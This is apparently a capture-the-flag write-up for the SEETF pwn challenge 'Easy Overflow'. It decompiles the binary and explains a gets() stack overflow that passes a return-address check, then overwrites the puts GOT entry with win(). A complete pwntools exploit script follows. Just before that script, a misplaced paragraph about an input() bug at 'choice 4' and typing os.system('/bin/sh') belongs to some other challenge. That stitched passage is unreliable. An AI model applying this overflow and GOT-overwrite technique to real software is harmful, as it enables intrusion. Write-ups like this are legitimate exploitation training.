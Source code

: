 ## Easy Overflow
![overflow](images/easyoverflow.png)

### Description
>I did a check on my return address. Now you shouldn't be able to control my RIP.\
>nc fun.chall.seetf.sg 50003\
>MD5: a9a706d9b8d73ec0ee5c39bf0505d85e


### Gain Shell
Bufferoverflow challenge, but this time no sourcecode given, we can decompile the ELF file with IDA or Ghidra. Here I'm using IDA7.7.\
No PIE and no Canary.
```bash
linuz@linz:~/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow$ checksec easy_overflow
[*] '/home/linuz/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The **main()** function it's like this:\
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  puts("I will let you  overflow me.");
  vuln();
  puts("I will give you one more chance.");
  fgets(s, 8, stdin);
  puts(s);
  return 0;
}
```

And the **vuln()** function is like this:\
```c
int vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  char *retaddr; // [rsp+28h] [rbp+8h]

  gets(v1);
  if ( retaddr != main + 70 )
  {
    puts("Naughty Boi\n");
    exit(-1);
  }
  return puts("Good  boi\n");
}
```

There's a bufferoverflow in **vuln()** because program using **gets()** but there's a manual check on return if return not **main+70** it will exit.\
With this bufferoverflow we can overwrite the address of **s** at **main()** function. So after back to main it will like this.\
![overflow](images/easyoverflow2.png)
```py
payload = b'A'*32
payload += p64(0xdeadbeef)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
```
With this we can overwrite the GOT PUTS to **win()** function. Because there's `lea, [rbp-0x20]` our value will be substracted with 0x20, just add +0x20 to get the correct value.\
Full Script:

The bug is on **input()** at choice 4, because the program already **import os**, then just simply input **os.system("/bin/sh")** to get shell

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./easy_overflow")
p = process("./easy_overflow")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50003

cmd = """
b*0x00000000004011a1
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)


payload = b'A'*32
payload += p64(elf.got['puts']+0x20)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
p.sendline(p64(elf.sym['win']))
p.interactive()
````